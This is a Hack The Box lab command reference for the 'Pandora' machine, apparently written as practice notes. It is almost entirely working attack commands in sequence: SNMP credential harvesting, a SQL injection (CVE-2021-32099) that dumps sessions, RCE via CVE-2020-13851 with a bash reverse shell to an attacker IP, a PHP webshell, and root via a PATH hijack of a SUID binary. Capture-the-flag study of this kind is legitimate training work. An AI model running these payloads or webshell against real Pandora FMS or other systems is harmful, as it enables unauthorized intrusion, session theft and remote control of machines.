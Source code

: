 **HTB: Pandora - Command Reference**

---

### 🧰 Recon Phase

**Nmap TCP Full Range Scan:**
```bash
nmap -p- --min-rate 10000 10.10.11.136
```

**Nmap Service Version Scan:**
```bash
nmap -p 22,80 -sCV 10.10.11.136
```

**UDP Scan for SNMP:**
```bash
sudo nmap -sU -top-ports=100 10.10.11.136
```

**Feroxbuster Directory Fuzzing:**
```bash
feroxbuster -u http://10.10.11.136
```

**WFuzz Subdomain Discovery:**
```bash
wfuzz -u http://panda.htb -H "Host: FUZZ.panda.htb" \
  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
  --hh 33560
```

**SNMP Enumeration:**
```bash
snmpwalk -v 2c -c public 10.10.11.136 | tee snmp-full
snmpbulkwalk -Cr1000 -c public -v2c 10.10.11.136 > snmp-full-bulk
```

**Custom Process Parsing (Python):**
```python
# snmp_processlist.py (dataclass and regex-based parser)
```

---

### 🚪 Initial Access

**Extracted from SNMP:**
```
Username: daniel
Password: HotelBabylon23
```

**SSH into Box:**
```bash
sshpass -p 'HotelBabylon23' ssh daniel@10.10.11.136
```

**Port Forward Pandora Console:**
```bash
ssh -L 9001:localhost:80 daniel@10.10.11.136
```

---

### 🩷 SQL Injection (CVE-2021-32099)

**Check SQLi Error:**
```
http://pandora.panda.htb:9001/pandora_console/include/chart_generator.php?session_id='
```

**Union Test (3 Columns):**
```
?session_id=' union select 1,2,3-- -
```

**SQLMap Discovery:**
```bash
sqlmap -u 'http://pandora.panda.htb:9001/pandora_console/include/chart_generator.php?session_id=1'
```

**Dump Pandora Sessions:**
```bash
sqlmap -D pandora -T tsessions_php --dump --where "data<>''"
```

**Replay Session (Replace Cookie):**
```http
Cookie: PHPSESSID=g4e01qdgk36mfdh90hvcc54umq
```

---

### 🔨 Remote Code Execution (RCE #1: CVE-2020-13851)

**Exploit via Ajax:**
```http
POST /pandora_console/ajax.php
Cookie: PHPSESSID=g4e01qdgk36mfdh90hvcc54umq

page=include/ajax/events&perform_event_response=10000000&target=bash+-c+"bash+-i+>%26+/dev/tcp/10.10.14.6/443+0>%261"&response_id=1
```

**Listener:**
```bash
nc -nvlp 443
```

**Shell Upgrade:**
```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
reset
```

---

### 🔨 Remote Code Execution (RCE #2: Admin Upload via SQLi)

**Crafted Payload for Admin Session:**
```url
http://127.0.0.1:9001/pandora_console/include/chart_generator.php?session_id=' union select '1','2','id_usuario|s:5:"admin";' -- a
```

**Upload Webshell (PHP):**
```php
<?php system($_REQUEST['cmd']); ?>
```

**Execute Reverse Shell via Webshell:**
```bash
curl 'http://pandora.panda.htb:9001/pandora_console/images/0xdf.php?cmd=bash+-c+"bash+-i+>%26+/dev/tcp/10.10.14.6/443+0>%261"'
```

---

### 💼 Privilege Escalation to root

**SUID Binary Discovered:**
```bash
find / -perm -4000 -ls 2>/dev/null | grep pandora_backup
```

**Drop SSH Key to Ensure Clean Env:**
```bash
echo "<pub_key>" > /home/matt/.ssh/authorized_keys
```

**Confirm pandora_backup Vulnerability:**
```bash
ltrace pandora_backup
```

**Hijack tar via PATH:**
```bash
cd /dev/shm
export PATH=/dev/shm:$PATH

cat > tar << 'EOF'
#!/bin/bash
bash
EOF

chmod +x tar
pandora_backup
```

**Grab root flag:**
```bash
cat /root/root.txt
```

---

### 🕵️‍♂️ Beyond Root (Apache mpm-itk Sandbox Bypass)

- Apache site runs as `matt` via `AssignUserID` (from `mpm-itk` module).
- This breaks all SUID functionality under Apache execution tree.
- Switching to SSH avoids `mpm-itk` sandbox, allowing SUID execution.

**References:**
- https://mpm-itk.sesse.net/
- https://www.cpanel.net/support/
- https://serverfault.com/questions/1013897/setuid-scripts-fail-under-apache-mpm-itk

---

**Status:**
- User: `daniel` via SNMP creds
- Lateral: `matt` via Pandora FMS SQLi
- Root: `pandora_backup` path hijack

Great practice for SNMP enumeration, SQLi chaining, Apache mod understanding, and privilege escalation via PATH hijack ✨